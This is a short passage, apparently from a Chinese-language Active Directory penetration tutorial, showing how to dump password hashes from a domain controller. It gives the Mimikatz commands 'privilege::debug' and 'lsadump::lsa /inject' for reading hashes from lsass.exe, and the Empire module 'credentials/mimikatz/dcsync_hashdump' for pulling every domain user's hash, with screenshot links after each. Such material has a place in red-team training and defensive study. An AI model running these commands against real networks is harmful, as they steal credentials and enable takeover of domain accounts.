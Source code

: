 c、直接在域控制器中执行 Mimikatz，通过 lsass.exe 进程 dump 哈希

privilege::debug  
lsadump::lsa /inject  
[![image.png](assets/1698894155-c105edd3c2da20e2733f6066ea4ca670.png)](https://storage.tttang.com/media/attachment/2022/09/30/74f743c7-aba1-4fae-91bd-6793d313d083.png)

##### [Empire](#toc_empire)

提取域内所有用户 hash 值：

usemodule credentials/mimikatz/dcsync\_hashdump

[![image.png](assets/1698894155-ffe164769bdc0eadf9a4ab5ac604b30b.png)](https://storage.tttang.com/media/attachment/2022/09/30/4008506e-022d-406c-932b-af6a7da473f3.png)
